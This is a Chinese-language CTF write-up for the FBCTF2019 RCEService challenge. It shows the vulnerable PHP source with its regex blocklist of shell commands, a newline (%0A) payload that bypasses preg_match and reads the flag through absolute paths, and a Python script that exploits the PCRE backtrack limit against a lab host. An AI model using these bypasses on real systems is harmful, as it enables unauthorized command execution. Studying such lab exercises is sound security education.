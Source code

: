 # \[FBCTF2019]RCEService

## \[FBCTF2019]RCEService

## 考点

* `%0a`绕过preg\_match
* PRCE正则回溯
* 绝对路径绕过`putenv('PATH=/home/rceservice/jail');`

## wp

直接输`ls`会给出错误，显示提交的参数是`?cmd=ls`

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

要求输入json，输入`{"cmd":"ls"}`

![](<../.gitbook/assets/image (7) (1) (1) (1).png>)

源码是给出的，如下

```php
<?php
putenv('PATH=/home/rceservice/jail');
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

### 第一种方法

基本上能过滤的全过滤了，并且在第一行`putenv('PATH=/home/rceservice/jail');`处指定了默认执行命令的位置，即如果执行`ls`，那么就相当于执行`/home/rceservice/jail/ls`，这里可以使用`/bin/cat`，`/bin/ls`这种方式绕过

而preg\_match默认不匹配换行，可以使用`%0A`绕过，payload：`{%0A"cmd":"ls"%0A}`

`%0A`如果放在开头，不满足``[\x00-\x1FA-Z0-9!#-/;-@[-`|~\x7F]+``这个条件。

payload：`{%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

### 第二种方法

[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

脚本如下

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://26d07d48-6ef0-406d-94ad-b13c0c4908fa.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

## 小结

* preg\_match要能想到%0A绕过
